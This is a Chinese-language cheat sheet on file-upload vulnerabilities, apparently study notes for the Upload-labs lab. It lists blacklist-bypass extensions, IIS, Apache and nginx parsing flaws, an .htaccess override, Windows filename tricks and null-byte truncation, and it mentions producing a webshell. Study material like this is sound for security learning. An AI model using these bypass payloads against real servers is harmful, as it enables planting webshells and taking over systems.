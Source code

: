 

GO GO GO

## 思路脑图

![Upload-labs](../漏洞/imgs/Upload-labs.png)

## 后缀名解析

### 黑名单

- **生僻解析后缀**

```
后缀
====
asp => .aspx .asa .cer .cdx
jsp => .jspx .jspf
php => .php3 .php4 .phtml

大小写绕过比如：.aSp .pHp
```

### 解析漏洞

- **IIS 5.x - 6.x**

```
形式：http://www.xxx.com/xx.asp/xx.jpg
原理: 服务器默认会把.asp，.asp目录下的文件都解析成asp文件
形式：http://www.xxx.com/xx.asp;.jpg
原理：服务器默认不解析;号后面的内容，因此xx.asp;.jpg便被解析成asp文件了
IIS6.0 默认的可执行文件除了asp还包含这三种 :
/test.asa /test.cer /test.cdx
```

- **Apache**

```
形式：http://www.xxxx.xxx.com/test.php.php123
其余配置问题导致漏洞
（1）如果在 Apache 的 conf 里有这样一行配置 AddHandler php5-script .php 这时只要文件名里包含.php 即使文件名是 test2.php.jpg 也会以 php 来执行。
（2）如果在 Apache 的 conf 里有这样一行配置 AddType application/x-httpd-php .jpg 即使扩展名是 jpg，一样能以 php 方式执行。
```

- **nginx**

```
漏洞形式:
http://www.xxxx.com/UploadFiles/p_w_picpath/1.jpg/1.php
http://www.xxxx.com/UploadFiles/p_w_picpath/1.jpg%00.php
http://www.xxxx.com/UploadFiles/p_w_picpath/1.jpg/%20\0.php
另外一种手法：上传一个名字为test.jpg，然后访问test.jpg/.php,在这个目录下就会生成一句话木马shell.php。
(IIS7.5的漏洞与nginx的类似，都是由于php配置文件中，开启了cgi.fix_pathinfo)
```

### 上传绕过

- **.htaccess**

```
文件作为局部变量作用文件成功作用的两个条件  #配置文件httpd.conf
1、Allow Override All
2、LoadModule rewrite_module modules/mod_rewrite.so #rewrite模块为开启状态
通过上传.htaccess文件,apache服务器会将所有.jpg为后缀的文件作为php文件解析
<Directory />
    Options FollowSymLinks
    AllowOverride All
    AddType application/x-httpd-php .jpg	#将.jpg后缀的文件作为PHP文件解析
</Directory>
```

- **上传不符合windows文件命名规则的文件名**

```
test.asp.
test.asp(空格)
test.php:1.jpg
test.php:: $DATA
会被windows系统自动去掉不符合规则符号后面的内容
```

- **0x00 截断**

```
假如这时候获取到的文件名是 test.asp .jpg(asp 后面为 0x00 符合了c语言的特性) 而在gettype()函数里处理方式是从后往前扫描扩展名，所以判断为 jpg
```